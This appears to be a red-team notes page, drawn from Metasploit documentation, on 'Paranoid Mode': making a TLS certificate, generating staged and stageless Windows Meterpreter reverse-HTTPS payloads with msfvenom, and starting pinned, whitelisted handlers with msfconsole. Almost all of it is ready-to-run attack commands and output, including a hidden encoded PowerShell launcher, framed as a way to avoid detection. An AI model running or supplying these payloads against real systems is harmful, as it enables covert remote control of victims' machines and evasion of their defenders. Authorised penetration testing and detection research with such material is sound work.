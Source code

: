 # Paranoid Mode

* To avoid many of the well known detection that are out there for Metasploit/Meterpreter, you should always use this.

#### Create a SSL/TLS Certificate <a href="#create-a-ssltls-certificate" id="create-a-ssltls-certificate"></a>

For best results, use a SSL/TLS certificate signed by a trusted certificate authority. Failing that, you can still generate a self-signed unified PEM using the following command:

```
$ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
rm -f www.example.com.key  www.example.com.crt
```

#### &#x20;Create a Paranoid Payload <a href="#create-a-paranoid-payload" id="create-a-paranoid-payload"></a>

For this use case, we will combine [Payload UUID](https://docs.metasploit.com/docs/using-metasploit/intermediate/payload-uuid.html) tracking and whitelisting with [TLS pinning](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-http-communication.html). For a staged payload, we will use the following command:

```
$ ./msfvenom -p windows/meterpreter/reverse_winhttps LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./www.example.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f psh-cmd -o launch-paranoid.bat

$ head launch-paranoid.bat
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcg...
```

A [stageless](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-stageless-mode.html) version of this would look like the following:

```
$ ./msfvenom -p windows/meterpreter_reverse_https LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./www.example.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedStageless -f exe -o launch-paranoid-stageless.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 885314 bytes
Saved as: launch-paranoid-stageless.exe
```

#### &#x20;Create a Paranoid Listener <a href="#create-a-paranoid-listener" id="create-a-paranoid-listener"></a>

A staged payload would need to set the `HandlerSSLCert` and `StagerVerifySSLCert` options to enable TLS pinning and `IgnoreUnknownPayloads` to whitelist registered payload UUIDs:

```
$ ./msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_winhttps; set LHOST www.example.com; set LPORT 443; set HandlerSSLCert ./www.example.com.pem; set IgnoreUnknownPayloads true; set StagerVerifySSLCert true; run -j'
```

A stageless version is only slightly different:

```
$ ./msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter_reverse_https; set LHOST www.example.com; set LPORT 443; set HandlerSSLCert ./www.example.com.pem; set IgnoreUnknownPayloads true; set StagerVerifySSLCert true; run -j'
```
